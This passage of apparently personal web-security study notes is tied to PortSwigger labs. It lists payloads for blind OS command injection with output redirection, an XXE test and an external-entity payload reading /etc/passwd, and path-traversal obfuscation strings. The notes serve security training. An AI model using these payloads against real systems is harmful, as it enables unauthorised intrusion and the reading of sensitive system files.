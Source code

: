 
##### Blind, Output redirection

Indicators:  
The response delays with `;sleep 5;`.  
Writable folders are present.

Redirect the output to a writable file:
```bash
;whoami>/var/www/images/output.txt;
;cat+/etc/hosts>>/var/www/images/output.txt;
```

[Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

#### XXE

Indicators:  
Request contain xml data  

Hidden attack surface:  
data is placed into a back-end SOAP request -> XInclude attacks  
[SVG file upload](SVG file upload)

Test:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
If the output replaces `&example;` with Doe, the target is likely vulnerable to XXE.

##### Basic XXE to retrieve files

Inserting `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>` and change the value of the parameter to `&xxe;`.

[Lab: Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

#### LFI

##### File Path Traversal

Indicators:  
`?filename=` parameter appears in a request.

**Obfuscation techniques**:

Mangled path:
```bash
....//....//....//....//etc/passwd
```
